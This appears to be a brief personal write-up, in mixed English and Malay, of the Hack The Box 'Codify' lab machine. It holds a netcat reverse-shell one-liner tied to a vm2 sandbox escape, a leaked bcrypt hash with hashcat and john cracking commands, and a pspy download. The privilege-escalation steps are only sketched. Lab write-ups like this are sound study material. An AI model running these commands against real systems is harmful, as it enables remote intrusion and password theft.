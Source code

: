 ```yaml
---
date:
  created: 2023-12-19
  updated: 2023-12-19
description: HTB-Codify(easy) Writeup
tags:
  - enum4linux
  - cve
  - john
  - hashcat
  - linpeas
  - pspy64
comments: true
---
```


# Codify

## Recon
nmap scan
if have smb or any kind of port service. use enum4linux

## Enumeration
see what is happen on the web. make some reading. find vm2 exploit
https://www.bleepingcomputer.com/news/security/new-sandbox-escape-poc-exploit-available-for-vm2-library-patch-now/
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.9 1234 >/tmp/f`

## Exploitation
cari something interesting
found seomthing on /var/www/contact/tickets.db
joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
search dulu what type is this hash
`hashcat -a 0 -m 3200 hash /usr/share/wordlists/rockyou.txt -w 3`
`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

got user.txt

## Privesc
direct sudo -l
baca script /opt/scripts/mysql-backup.sh
tanya chatgpt.. try to understand and listen how it works
guna pspy64 `wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64`

then transfer pass.py atau password.py
run
got root.txt